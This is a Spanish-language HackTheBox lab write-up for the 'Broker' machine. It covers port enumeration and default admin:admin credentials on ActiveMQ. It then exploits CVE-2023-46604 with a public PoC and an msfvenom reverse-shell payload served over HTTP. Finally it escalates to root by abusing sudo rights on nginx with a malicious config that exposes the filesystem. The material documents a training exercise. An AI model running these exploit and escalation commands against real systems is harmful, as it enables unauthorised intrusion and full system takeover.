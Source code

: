 ```yaml
---
title: "Broker - HackTheBox"
layout: post
date: 2023-12-19 22:10
tag: 
- hackthebox
- Broker
- Abusing Sudoers
- nginx
- RCE
- msfvenom
image: /assets/images/hackthebox/Broker.png
headerImage: true
projects: false
hidden: false
description: "Broker - HackTheBox"
category: blog
author: CAHOn3R
externalLink: false
---
```


# Enumeración

Como casi siempre empezamos la enumeración realizando un escaneo de puertos con **nmap**

```bash
nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn -oG allPorts 10.10.11.243

[*] Open ports: 22,80,1883,5672,7777,8161,37549,61613,61614,61616

-p- # para escanear los 65535 puertos que existen
-sS # para realizar un escaneo tipo "SYN scan"
--min-rate 5000 # para indicarle no se envien menos de 5k paquetes por segundo
--open # para que solo reporte puertos abiertos
-vvv # para que muestre por consola lo máximo posible y lo antes posible
-n # para realizar un escaneo prescindiendo de la resolución de nombres de dominio
-Pn # para que no realice la detección del estado del host antes de iniciar el escaneo
-oG # para especificar un formato de salida en modo greppable en el archivo allPorts
```
Y lanzamos los scripts básicos de reconocimiento para tratar de detectar la versiones y servicios de cada uno de ellos

```bash
nmap -sCV -p 22,80,1883,5672,7777,8161,37549,61613,61614,61616 10.10.11.243 -oN targeted
```
Yo lo exporto al archivo targeted para poder leerlo más cómodamente y tenerlo accesible en el futuro.

```java
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/MasterBroker: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
7777/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Index of /
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE    TIME               FILENAME
| -       06-Nov-2023 01:10  bin/
| -       06-Nov-2023 01:10  bin/X11/
| 963     17-Feb-2020 14:11  bin/NF
| 129576  27-Oct-2023 11:38  bin/VGAuthService
| 51632   07-Feb-2022 16:03  bin/%5B
| 35344   19-Oct-2022 14:52  bin/aa-enabled
| 35344   19-Oct-2022 14:52  bin/aa-exec
| 31248   19-Oct-2022 14:52  bin/aa-features-abi
| 14478   04-May-2023 11:14  bin/add-apt-repository
| 14712   21-Feb-2022 01:49  bin/addpart
|_
|_http-server-header: nginx/1.18.0 (Ubuntu)
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
37549/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.39.v20210325)
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15
```
Vemos mucha información, muchos servicios, muchas versiones... Vamos a continuar con la enumeración.

```bash
whatweb http://10.10.11.243/
http://10.10.11.243/ [401 Unauthorized] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.243], PoweredBy[Jetty://], Title[Error 401 Unauthorized], WWW-Authenticate[ActiveMQRealm][basic], nginx[1.18.0]
```
Aquí vemos que el servidor web lo corre un Linux, y nos dice "Unauthorized" así que imagino que tendrá que haber una autentificación previa para acceder a donde sea que nos lleve esto.
[<img src="/assets/images/hackthebox/captura1.png">](/assets/images/hackthebox/captura1.png)
Y efectivamente hay un panel de autentificación, pruebo `admin:admin` y para dentro... Una vez dentro vemos un [Apache ActiveMQ](https://genos.es/activemq-soporte/) que además ya habíamos visto antes con **nmap** en el puerto **61616** con la versión **5.15.15**, solo por confirmar, hago clic en "Support" y veo lo siguiente.[<img src="/assets/images/hackthebox/captura2.png">](/assets/images/hackthebox/captura2.png)
# Explotación

Tras una breve, muy breve búsqueda en Google doy con este [poc RCE](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ), me lo descargo en mí máquina atacante y lo ejecuto tal y como dice en el **poc**.
```bash
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell
cd CVE-2023-46604-RCE-Reverse-Shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f elf -o test.elf
python3 -m http.server 8001
./ActiveMQ-RCE -i {Target_IP} -u http://{IP_Of_Hosted_XML_File}:8001/poc-linux.xml
```

Tal y como nos explican editamos el **poc-linux.xml** para que apunte a nuestra **IP**, compartimos un servidor con **Python** para que el script pueda acceder a nuestro archivo **.elf**[<img src="/assets/images/hackthebox/captura3.png">](/assets/images/hackthebox/captura3.png)
Recibimos la reverse shell y hacemos el tratamiento de la **TTY**
```bash
script /dev/null -c bash
^Z # CTRL+Z
stty raw -echo; fg
	reset xterm
export TERM=xterm SHELL=bash
stty rows X columns X # tus filas y columnas 
```

> Puedes ver tus filas y columnas en tu máquina con stty -a

# PrivEsc 

Ya dentro de la máquina hacemos el típico 
```bash
sudo -l
(ALL : ALL) NOPASSWD: /usr/sbin/nginx
```
y vemos que podemos ejecutar como cualquier usuario **nginx** 

Con la ayuda de ChatGPT creo un archivo confing para nginx
```nginx
user root; 
events { 
worker_connections 1024;
} 
http { 
	server { 
		listen 443; 
		root /; 
		autoindex on;
		}
}
```
Esto se encarga básicamente de crear un **"LFI"** ejecutado como root en la máquina víctima, entonces podemos ejecutarlo con el parámetro `-c` de **nginx** y todas las peticiones que mandemos al `localhost` por el puerto **443** se interpretaran como root.

```bash
activemq@broker$ sudo /usr/sbin/nginx -c /tmp/lfi.conf
activemq@broker$ curl localhost:443/root/root.txt
5a0ddd1174678ff246d93285c421e95f
```

